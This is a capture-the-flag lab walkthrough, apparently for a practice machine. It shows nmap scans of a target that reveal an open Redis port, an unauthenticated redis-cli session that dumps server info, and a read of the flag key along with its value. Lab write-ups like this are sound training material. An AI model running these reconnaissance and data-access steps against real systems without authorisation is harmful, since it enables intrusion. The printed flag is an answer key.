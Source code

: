 - Here we have connected the machine with vpn using openvpn
- One the connection was established we run the ICMP echo request aka ping request to check if the machine is ruining or not.
		`ping <ip address> -c 4`
- Then run the Nmap scan
┌──(root㉿kali)-[~]
└─# nmap -T4 -Pn -A 10.129.134.5
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-24 02:18 IST
Nmap scan report for 10.129.134.5
Host is up (0.36s latency).
All 1000 scanned ports on 10.129.134.5 are in ignored states.
Not shown: 1000 closed tcp ports (reset)
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   434.01 ms 10.10.16.1
2   200.92 ms 10.129.134.5

┌──(root㉿kali)-[~]
└─# nmap -T4 -p- -A 10.129.134.5
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-24 02:20 IST
Stats: 0:02:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.67% done; ETC: 02:26 (0:03:33 remaining)
Nmap scan report for 10.129.134.5
Host is up (0.30s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/24%OT=6379%CT=1%CU=41499%PV=Y%DS=2%DC=T%G=Y%TM=64BD9
OS:5E8%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:FF%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M537ST11NW7%O2=M537ST11NW7%O
OS:3=M537NNT11NW7%O4=M537ST11NW7%O5=M537ST11NW7%O6=M537ST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M537NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   262.84 ms 10.10.16.1
2   263.19 ms 10.129.134.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 830.19 seconds


Note we have to install the redis-cli in kali linux.

- Redis terminal info command
- ┌──(root㉿kali)-[~]
└─# redis-cli -h 10.129.134.5
10.129.134.5:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:752
run_id:e62c57f370d5933c6d48b9a869ebae829cdcfbbc
tcp_port:6379
uptime_in_seconds:2360
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:12381808
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:4
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:6721536
used_memory_rss_human:6.41M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.00%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1564792
allocator_active:1937408
allocator_resident:13385728
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.24
allocator_frag_bytes:372616
allocator_rss_ratio:6.91
allocator_rss_bytes:11448320
rss_overhead_ratio:0.50
rss_overhead_bytes:-6664192
mem_fragmentation_ratio:8.22
mem_fragmentation_bytes:5903920
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1690101949
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:409600
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:8
total_commands_processed:10
instantaneous_ops_per_sec:0
total_net_input_bytes:406
total_net_output_bytes:29836
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:256
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:945669f3a8756e4260c9369a1c0b02729a94443b
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.994891
used_cpu_user:0.986351
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000908

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.134.5:6379> 


10.129.134.5:6379> keys *
1) "temp"
2) "numb"
3) "flag"
4) "stor"
10.129.134.5:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.134.5:6379> 
